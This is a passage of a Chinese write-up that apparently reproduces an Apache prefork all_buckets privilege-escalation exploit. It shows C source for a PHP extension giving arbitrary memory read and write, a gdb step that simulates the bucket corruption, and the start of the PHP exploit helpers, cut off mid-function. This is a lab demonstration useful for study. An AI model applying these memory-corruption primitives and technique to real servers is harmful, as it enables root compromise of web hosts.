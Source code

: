 PHP扩展

```
[root@bogon php-extension]# cat read_mem.c 
#include <stdio.h>
#include <stdint.h>

long read_mem(long addr)
{
	return (unsigned long)(*((uint8_t*)(addr)));
}
[root@bogon php-extension]# cat write_mem.c 
#include <stdio.h>
#include <stdint.h>

void write_mem(long addr,long data)
{
	*((uint8_t*)addr) = data;
}
[root@bogon php-extension]# 
```

### 问题

我在Apache 2.4.38 与 Apache 2.4.25中，测试发现all_buckets的地址与共享内存的地址之间的差值，远远不是一个4字节能表示的（bucket索引4字节）。所以在我的演示中，需要通过gdb来修改

```c
my_bucket = &all_buckets[bucket];//prefork.c:685
```

my_bucket的值，来模拟修改bucket，使其指向恶意的prefork_child_bucket结构。

### PHP利用代码

```
<?php

function read_mem_dword($addr)
{
	$ret = 0;
	for($j = 0;$j<4;$j++){
		$ret += read_mem($addr+$j) * pow(256,$j);
	}
	return $ret;
}

function read_mem_qword($addr)
{
	$ret = 0;
	for($j = 0;$j<8;$j++){
		$ret += read_mem($addr+$j) * pow(256,$j);
	}
	return $ret;
}

function read_mem_byte($addr)
{
	return read_mem($addr);
}

function write_mem_qword($addr,$data)
{
	for($j=0;$j<8;$j++){
		$b = (0xff&(($data)>>($j*8)));
		write_mem($addr+$j,$b);
```